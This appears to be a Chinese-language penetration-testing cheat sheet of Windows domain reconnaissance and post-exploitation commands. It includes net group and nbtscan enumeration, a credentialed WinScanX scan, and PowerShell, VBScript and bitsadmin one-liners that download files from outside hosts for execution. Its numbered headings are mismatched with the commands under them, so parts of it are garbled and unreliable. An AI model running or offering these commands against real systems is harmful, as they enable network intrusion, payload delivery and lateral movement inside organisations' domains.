 ```
ipconfig/all
```

4、查看域中的用户名

```
net group "Domain Controllers" /domain
```

```
nbtstat -A 192.168.1.99
```

5、查询域组名称

```
nbtscan 192.168.1.0/24
```

```
WinScanX.exe -3 DC1 centoso\\pentest password -a > test.txt
```

6、查询域管理员

```
proxychains python scanner.py 192.168.0.0/24 -N
http://insight-labs.org/?p=981
```

```
$d = New-Object System.Net.WebClient
$d.DownloadFile("http://lemon.com/file.zip","c:/1.zip")
```

7、添加域管理员账号

```
Set xPost=createObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://192.168.206.101/file.zip",0
xPost.Send()
set sGet=createObject("ADODB.Stream")
sGet.Mode=3
sGet.Type=1
sGet.Open()
sGet.Write xPost.ResponseBody
sGet.SaveToFile "c:\\file.zip",2
下载执行：

cscript test.vbs
```

```
bitsadmin /transfer n http://lemon.com/file.zip c:\\1.zip
```

8、查看当前计算机名，全名，用户名，系统版本，工作站域，登陆域

```
net use x: \\\\127.0.0.1\\share /user:centoso.com\\userID myPassword
```
